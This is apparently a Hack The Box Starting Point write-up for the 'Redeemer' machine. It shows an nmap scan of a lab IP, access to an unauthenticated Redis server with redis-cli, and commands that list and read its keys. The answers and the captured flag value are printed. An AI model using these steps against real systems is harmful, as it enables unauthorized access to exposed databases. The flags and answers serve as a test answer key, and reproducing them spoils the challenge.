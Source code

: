 ```yaml
---
layout: post
title: "Redeemer"
date: 2022-05-12
image: ../../assets/img/Posts/redeemer.png
categories: [HTB, Starting Point, Tier 0]
tags: [linux, Redis]
---
```


### Task 1

> _Which TCP port is open on the machine?_

```bash
➜  nmap -sC -sV -p- -T4 10.129.161.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-18 13:08 EDT
Nmap scan report for 10.129.161.156 (10.129.161.156)
Host is up (0.24s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1103.43 seconds

```

`6379`

### Task 2

> _Which service is running on the port that is open on the machine?_

`Redis`

### Task 3

> _What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database_

`In-memory Database`

### Task 4

> _Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments._

`Redis-cli`

### Task 5

> _Which flag is used with the Redis command-line utility to specify the hostname?_

```bash
➜  redis-cli -h
redis-cli 6.0.16

Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]
  -h <hostname>      Server hostname (default: 127.0.0.1).

```

`-h`

### Task 6

> _Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?_

![image](https://user-images.githubusercontent.com/58165365/169652060-f1482fec-a58b-4526-8509-5e390da64e7d.png)

`info`

### Task 7

> _What is the version of the Redis server being used on the target machine?_

```bash
10.129.161.156:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
```

`5.0.7`

### Task 8

> _Which command is used to select the desired database in Redis?_

![image](https://user-images.githubusercontent.com/58165365/169652153-73f28340-f9b7-4100-9ccf-ce74ca208490.png)

`select`

### Task 9

> _How many keys are present inside the database with index 0?_

```bash
➜  startingpoint redis-cli -h 10.129.161.156
10.129.161.156:6379> keys *
1) "flag"
2) "numb"
3) "stor"
4) "temp"
10.129.161.156:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
10.129.161.156:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.161.156:6379> get stor
"e80d635f95686148284526e1980740f8"
10.129.161.156:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"
```

`4`

### Task 10

> _Which command is used to obtain all the keys in a database?_

![image](https://user-images.githubusercontent.com/58165365/169652197-e228848a-0426-4ceb-bf68-8793606498a5.png)

`keys *`

### Submit Flag

> _Submit root flag_

`03e1d2b376c37ab3f5319922053953eb`

# Resources

- [Redis - Commands](https://redis.io/commands/)
- [Redis CLI](https://redis.io/docs/manual/cli/)

